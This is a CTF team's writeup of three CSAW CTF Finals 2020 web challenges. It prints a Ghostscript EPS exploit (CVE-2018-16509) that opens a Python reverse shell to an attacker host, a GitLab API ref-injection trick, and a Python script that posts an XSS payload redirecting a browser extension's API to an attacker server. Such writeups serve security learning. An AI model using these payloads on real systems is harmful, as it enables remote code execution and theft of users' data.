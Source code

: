 ```yaml
---
published: true
title: "CSAW CTF Finals 2020 Writeups"
date: 2020-11-09T00:00:00.000Z
categories: ["article"]
tags: ["csaw", "ctf"]
---
```


* Al Capwn participated in the online CSAW CTF Finals 2020 from the India region. We stood 6th in the region scoring 2101 points. We did miss going to IIT Kanpur for the offline event, but, nonetheless we had tons of fun!

# Web - Picgram - 100

> Check out this new photo upload service! Hopefully you won't be able to do anything spooky with it. 
> 
> http://web.chal.csaw.io:5000

The challenge downloads contained the server's Dockerfile and Flask server script.

The server accepted an image in a POST request and echoed a resized version of the same image.

The Dockerfile builds upon the base image `vulhub/ghostscript:9.23-python` which is an intentionally vulnerable container image having an older version of the Pillow library ([CVE-2018-16509](https://nvd.nist.gov/vuln/detail/CVE-2018-16509)).

Quick google leads us to the vulhub GitHub repository containing information about the CVE and a convenient exploit payload i.e a JPG image with Ghostcript containing RCE. I modified the RCE to open up a reverse shell to my server and found the flag inside the sqlite database for the app server.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",5300));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

# Web - Shark Facts - 250 

> Sharks are all the rage right now, so people are craving shark facts. Unfortunately the shark fact maintainer went AWOL and is not accepting pull requests anymore :(
> 
> http://sharks.alternativefacts.systems/

We are given the challenge URL and the Flask server code. The application can be logged into using GitLab OAuth and creates a private repository containing shark facts for us under their own account with the name `shark-facts-for-<username>`.

After logging in, the server accepts the GitLab URL of a file to be read from the repository using the GitLab API.
{{< figure caption="Shark Facts Homepage" src="/img/shark-facts-home.png" alt="Shark Facts Homepage" position="center" style="border" >}}

The server code shows that if the file read contains the string `blahaj is life`, the flag is returned along with the file. Thus, Our goal is to fetch a file from GitLab with the contents `blahaj is life`. 

In this challenge we can control the input URL for the file to be read and our GitLab username. The input url by default contains the path of the README.md in the repository containing the Sharky facts. 
{{< figure caption="Server Code" src="/img/shark-facts-server.png" alt="Shark Facts Server" position="center" style="border" >}}

The server code accepted the URL and verified it to be a part of the repository created by the server, thus you cannot pass your own public repositories and the file has to be present in the SharkFacts repository. The URL is checked to be of the form `https://gitlab.com/sharkfacts/shark-facts-for-<username>/-/blob/main/<filename>` and everything beyond /blob/main is passed into the request URL.

Request URL is generated as: `https://gitlab.com/api/v4/projects/<project_name>/repository/files/<filename>/raw?ref=main`

The GitLab Files API accepts the repository ref from which to fetch the file from. We can form the input URL in such a way to control the ref to be used.
```
filename: README.md/raw?ref=<commit-id>&
final generated URL: https://gitlab.com/api/v4/projects/shark-facts-for-<username>/repository/files/README.md/raw?ref=<commit-id>&/raw?ref=main
```
This final URL allows us to fetch from any ref in the Git repository tree. We do not have write permissions in the GitLab repository but we can create a fork and open a merge request. This creates a branch with our file containing `blahaj is life` whose commit id we can copy. Submitting the filename with the commit id gives us the flag.

{{< figure caption="Shark Facts Flag" src="/img/shark-facts-flag.png" alt="Shark Facts Flag" position="center" style="border" >}}
```
https://gitlab.com/sharkfacts/shark-facts-for-arush15june/-/blob/main/README.md/raw?ref=03f8358719a72efc7c8ed702bc3ddfacfd843231&
```

Flag: `flag{Shark Fact #81: 97 Percent of all sharks are completely harmless to humans}`

# Web - Comment Anywhere - 300

>This is a cool new Chrome extension i'm working on which lets you leave a comment anywhere on any page that others using the extension can see. Check it out!

We are given the chrome extension `extension.crx` and the flask server code `app.py`. We installed the extension in a Chromium installation running inside an Ubuntu virtual machine and unpacked the CRX extension to get the extension source code.

The extensions allowed you to comment on a webpage and the comments will be visible to other users of the extension on the same URL and page coordinates. The extension was supposed to open up an input prompt to pass the comment but that never worked for us. 

The server code listed two API routes `/comment` for making new comments and `/comments?url=<url>` for listing comments for a specific URL. As the API was open, we could list and create new comments for any URL. On requesting the comments for the `https://ctf.csaw.io` using `GET /comments?url=https://ctf.csaw.io` we got a few comments with the creator as admin and many XSS payloads from other participants hinting us on how we should proceed. A lot of the payloads were using window.PostMessage to change the configuration of the extension configuring it to change its API server to one controlled by the participants. As the `POST /comment` API didnt perform any HTML escaping we could pass script tags directly via a POST requests. 

The challenge hint told us to try and see what the admin was doing. We hosted our own API server using the the given server file and comment an XSS payload changing the extension API server via `window.PostMessage` giving us the requests made by the admin. 

```python
from concurrent.futures import ThreadPoolExecutor
import requests
import json

URL = "http://comment-anywhere.chal.csaw.io:8000"
url = "http://ctf.csaw.io/"
def do_comment(comm):
  return requests.post(URL+'/comment', json={
    'url':url,
    'coords': {'x':42,'y':123},
    'creator': "shell",
    'comment': comm,
  })


def do():
  r = do_comment("""<img src=x onerror=\";window.postMessage({type: 'commentAnywhereSetCoords', coords: {type: 'setConfig', key: 'api', value: 'http://<SERVER_IP>:8001'}});\">""")
  print(r, r.text)
  rL = requests.get(URL+'/comments?url=https://ctf.csaw.io/')
  try:
    print(rL.text)
    if '<SERVER_IP>' in rL.text:
      print('GOT', len(rL.json()))
  except:
    pass

if __name__ == "__main__":
  while True:
    futures = []
    with ThreadPoolExecutor(max_workers=8) as executor:
      futures.append(executor.submit(do))
```
Once the payload was executed by the admin browser, we started receiving requests from the admin listing comments from many URLs, the flag was part of the URLs being listed by the admin.

```
GET /comments?url=https%3A%2F%2Fctf.csaw.io%2Fcomment-anywhere%2Fflag%257Bh0w_many_l%40yers_of_yavaScr1pt_r_u_0n%3F%7D
```

Flag: `flag{h0w_many_l@yers_of_yavaScr1pt_r_u_0n?}` 